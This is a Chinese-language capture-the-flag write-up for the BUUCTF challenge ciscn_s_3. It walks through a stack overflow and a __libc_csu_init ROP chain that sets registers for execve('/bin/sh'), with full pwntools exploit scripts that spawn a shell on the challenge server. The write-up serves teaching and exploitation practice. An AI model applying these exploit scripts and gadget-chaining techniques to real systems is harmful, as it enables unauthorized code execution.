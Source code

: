 ### Csu Execve ROP

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67aeefa0d0e0a243d4ff1c9e.png)

buf 给的大小过多，明显栈溢出

![image-20250214152429788](C:\Users\ydd33\AppData\Roaming\Typora\typora-user-images\image-20250214152429788.png)

确认大小，但是没有找到可利用字符串及能泄露 libc 的函数

![](https://pic1.imgdb.cn/item/67aeefdad0e0a243d4ff1cac.png)

汇编下分析 vuln 函数发现缺少了 leave 指令（可参考栈迁移那一节）

所以函数调用完毕后并不会清空栈

![](https://pic1.imgdb.cn/item/67aef007d0e0a243d4ff1cb8.png)

因为 vunl 函数最后调用了 write 函数输出 20 字节数据，所以可以先泄露 buf 地址

```python
from pwn import *

p = process('./ciscn_s_3')
gdb.attach(p)

vul_addr = 0x4004ed

payload = b'a' * 0x10 + p64(vul_addr)

p.send(payload)
p.recv(0x20)

stack_addr = u64(p.recv(8))

print(hex(stack_addr))
```

按 ni 或 si 跟进

![](https://pic1.imgdb.cn/item/67af0289d0e0a243d4ff2815.png)

最后输入 exit 退出拿到打印的地址

![](https://pic1.imgdb.cn/item/67af03cad0e0a243d4ff28ba.png)

相减得到 0x148**（题目环境为 0x118）**

![](https://pic1.imgdb.cn/item/67af079fd0e0a243d4ff2b81.png)

再看题目中给的 gadgets，分别对 rax 赋予了 0xf（sigret）, 和 0x3b（execve）

因此接下来就可以分为两种做法，目标都是控制寄存器的值来执行 execve

在 x86_64 架构下，`execve` 系统调用的参数通过寄存器传递：

- **rdi**: `pathname` — `/bin/sh` 的地址
- **rsi**: `argv` — 传递给程序的参数（此处为 `0`）
- **rdx**: `envp` — 环境变量（此处为 `0`）

`__libc_csu_init` 是一个常见的函数，用于在程序启动时初始化静态全局变量和进行一些库初始化工作。这个函数通常会被放置在程序的可执行文件的 `.init` 段中。它也是一种可以利用的 **gadget**，可以用来控制寄存器。

**`__libc_csu_init` 的作用：** 该函数通常包含一些对寄存器的修改操作，它的末尾可能正好是一个 `pop` 操作或类似的指令，因此可以通过链式利用（gadget chaining）来控制 `rdi`、`rsi` 和 `rdx` 寄存器

![](https://pic1.imgdb.cn/item/67af0bbdd0e0a243d4ff2d6e.png)

接下来再造成一次溢出，进行 execve 函数调用，然后只要让 rdi=/bin/sh，rsi=0，rdx=0 即可获得 shell

没有直接找到设置 rdx 寄存器的指令，但是找到了改变 rdx 寄存器方法的指令

```
mov rdx, r13
pop r13
```

![](https://pic1.imgdb.cn/item/67afdeccd0e0a243d4ff79cf.png)

设置 r13 寄存器里的值，它其实是执行了两个步骤

第一步 mov，改变 r13 的值，之后 ret，进行地址跳转

我们可以用 pop r13 这个指令，先将 r13 设置为 0，只会 ret 到 mov rdx，r13，这样就将 rdx 设置为0了

但是将 rbx 设置为了 0，下面的 call 会变成执行 call ptr[12]

![](https://pic1.imgdb.cn/item/67afe1cbd0e0a243d4ff79ee.png)

最后去找 pop rid;

![](https://pic1.imgdb.cn/item/67afe238d0e0a243d4ff79f1.png)

构造 payload

```python
from pwn import *

io = remote('node5.buuoj.cn',27324)

main = 0x0004004ED
execv = 0x04004E2
pop_rdi = 0x4005a3
pop_rbx_rbp_r12_r13_r14_r15 = 0x40059A
mov_rdxr13_call = 0x0400580
sys = 0x00400517

pl1 = b'/bin/sh\x00' * 2 + p64(main)

io.send(pl1)
io.recv(0x20)

sh = u64(io.recv(8)) - 280

pl2 = b'/bin/sh\x00' * 2 + p64(pop_rbx_rbp_r12_r13_r14_r15) + p64(0) * 2 + p64(sh + 0x50) + p64(0) * 3
pl2 += p64(mov_rdxr13_call) + p64(execv)
pl2 += p64(pop_rdi) + p64(sh) + p64(sys)

io.send(pl2)
io.interactive()
```

